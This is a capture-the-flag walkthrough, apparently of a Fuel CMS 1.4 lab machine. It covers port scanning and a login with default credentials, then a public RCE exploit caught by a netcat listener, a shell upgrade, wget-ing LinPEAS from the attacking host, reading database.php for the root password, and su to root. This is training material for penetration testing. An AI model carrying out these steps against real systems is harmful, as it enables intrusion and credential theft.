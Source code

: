 # Enumeration
Let's use rustscan to quickly identify open ports.

![4774bf8379e59bbd52afeb6ee5ce35c8.png](./_resources/4774bf8379e59bbd52afeb6ee5ce35c8.png)

We'll confirm with nmap.

![483d18860073c5d5c096da2d715c1d4b.png](./_resources/483d18860073c5d5c096da2d715c1d4b.png)

![ce5189b40e37a4e8319174e75e5fccaf.png](./_resources/ce5189b40e37a4e8319174e75e5fccaf.png)

Now let's take a look at the web server. We see that it is running version 1.4 of the Fuel CMS, and the default credentials are provided if we scroll down.

![8cbca008e4bf56d6151b9e1a4e4472be.png](./_resources/8cbca008e4bf56d6151b9e1a4e4472be.png)

![05c5fe7e77fd22d091419dfd93f1b88e.png](./_resources/05c5fe7e77fd22d091419dfd93f1b88e.png)

Navigating to the `/fuel` directory, we find a login page.

![5224dac9506318c33577a2a6348acfce.png](./_resources/5224dac9506318c33577a2a6348acfce.png)

Luckily, the default credentials still work.

![a07ec25b29efb52af9f57633a28229cd.png](./_resources/a07ec25b29efb52af9f57633a28229cd.png)
<br>

# Exploitation
Googling "Fuel CMS 1.4 exploit" reveals a few possibilities. We will make use of [this exploit](https://github.com/AssassinUKG/fuleCMS). First set up a netcat listener. Then, download the python script and run it with `python3 fuelCMS.py <target IP>`.

![824c410c47e432324c70f32bfaf55b5f.png](./_resources/824c410c47e432324c70f32bfaf55b5f.png)

![54d72e75264d6394a8b3a9d06033e676.png](./_resources/54d72e75264d6394a8b3a9d06033e676.png)

Just like that, we have an initial foothold. Let's upgrade our shell with `import pty;pty.spawn("/bin/bash")`. From here, we can easily find the `user.txt` flag in our current user's home directory.

![6c79a56310480b8d75c813d6db224039.png](./_resources/6c79a56310480b8d75c813d6db224039.png)
<br>

# Post-Exploitation
Let's use [LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20220717) to search for possible privilege escalation methods on the target machine. Download the linpeas.sh file onto the attacking machine, spin up a webserver with `python3 -m http.server`, and download it onto the target machine using `wget <attacking IP>:8000/linpeas.sh`.

![9299f7445bd2df16067f66c6d071f90e.png](./_resources/9299f7445bd2df16067f66c6d071f90e.png)

Here I saved the file to the `/tmp` directory so that I don't have to worry about write permissions. Now use `chmod +x linpeas.sh` to mark the file as executable, then run it with `./linpeas.sh`.  We find a possible password in a database backup file:

![9a20046c446b84527afff7846355453a.png](./_resources/9a20046c446b84527afff7846355453a.png)

Since we have read permissions for the database file, we can check this for ourselves by using `cat /var/www/html/fuel/application/config/database.php`.

![67365bf12d04ba323672011be459f367.png](./_resources/67365bf12d04ba323672011be459f367.png)

Notice that this ties the root user to the password we found! If we use `su root` and we input the password we found, we see that this is indeed the case. Finally, we find the `root.txt` flag in the root user's home directory.

![6fac5bc79856190b4c07d1256c5a660e.png](./_resources/6fac5bc79856190b4c07d1256c5a660e.png)